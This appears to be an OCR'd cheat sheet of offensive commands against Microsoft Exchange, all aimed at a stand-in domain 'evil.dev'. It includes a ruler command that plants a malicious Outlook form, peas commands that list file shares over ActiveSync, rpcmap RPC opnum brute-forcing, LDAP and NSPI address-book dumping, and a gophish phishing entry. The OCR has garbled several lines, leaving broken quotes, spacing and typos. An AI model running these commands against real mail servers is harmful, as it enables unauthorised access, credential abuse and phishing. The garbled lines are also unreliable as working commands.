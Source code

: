 ```bash
   ./ruler --email user@evil.dev form add --suffix superduper --input command.txt --send
```


#### Anti-Malware

```bash
evilmacro
macropack
...
```

#### ActiveSync(LDAP)

```bash
   LDAPPER. py -D EVIL -U 'Administrator' -P ‘password’ -S DC02.EVIL.DEV
' (msExchDeviceID=123456)
```

#### ActiveSync(SMB Share)

```bash
   peas - u ' EVIL.DEV\sh' -p '[password]' mail.evil.dev --list-unc'\\DC01\'
```

#### ActiveSync(WSS)

```bash
   peas -U ' EVIL.DEC\user’ -p ‘password’ exch01.evil.dev - -smb-user=‘EVIL\sharepoint-setup'
• - smb-pass=' password’ •-list-unc 'http://SHP01/share’
```

#### RPC

```bash
   nmap mail.evil.dev -p 6001 -sV - sC
```


```bash
 rpcmap . py -debug -auth-transport’EVIL/user:password’
'ncacn http: /6001,RpcProxy=mail.evil.dev: 443]'
```


```bash
 rpcmap.py -debug -auth-transport 'EVIL/user:password' -auth-rpc 'EVIL/mia:password' -auth-level 6 -brute-opnums 'ncacn_http:[6001,RpcProxy=mail.evil.dev:443]'
```

#### LDAP

```bash
 LDAPPER. py -D EVIL - U 'Administrator' -P ‘password’ -S DC01. EVIL.DEV
(mail=user@evil.dev) mail objectGUID legacyExchangeDN distinguishedName
```

```bash
exchanger. py EVIL/user: ‘password’@mail.evil.dev nspi
dump -tables -name Hackers -lookup-tvpe EXTENDED
```

#### Phishing

```bash
   gophish
```




